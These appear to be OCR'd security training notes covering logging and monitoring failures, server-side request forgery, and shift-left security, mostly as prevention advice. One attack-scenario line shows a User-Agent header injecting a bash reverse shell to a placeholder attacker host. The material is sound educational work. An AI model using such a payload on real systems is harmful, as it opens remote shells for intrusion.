 
Security Logging and Monitoring Failures Attack Scenario
- An attacker inserts malicious code into a log file entry by manipulating user input to a web application
- Injects the code into the user agent string: `User-Agent: Mozilla/5.0; /bin/bash -i >& /dev/tcp/attacker_ip/443 0>&1`

Security Logging and Monitoring Failures Attack Scenario
- Ensure all security related events (login success & failures, access control changes) are logged
- Establish a documented, tested incident response plan/playbook

Server-Side Request Forgery
- An attack vector that exploits an application to interact with the internal/external network or the machine itself

Server-Side Request Forgery Typical Vuln
- Failed web server request validation
- Poor internal network segmentation to restrict lateral movement

Server-Side Request Forgery Prevention
- Enable authentication to all internal systems
- Deploy whitelists of DNS/IP addresses that an application is allowed to access


Shift Left Security
- Incorporating security requirements, security design and security testing earlier in the Software Development Lifecycle (SDLC).

Goals of Shift Left Security
- Identify security design flaws & vulnerabilities as early as possible in the development lifecycle.
- Ensure secure design principles are applied during the design phase

Shift Left Security Common Practices
- Security Policy
- Threat Modelling
- Secure Coding Practices

Shift Left Security - Separation of Privilege
- For highly sensitive operations, split responsibilities between two or more people
- No single person has complete control; requires collusion to exploit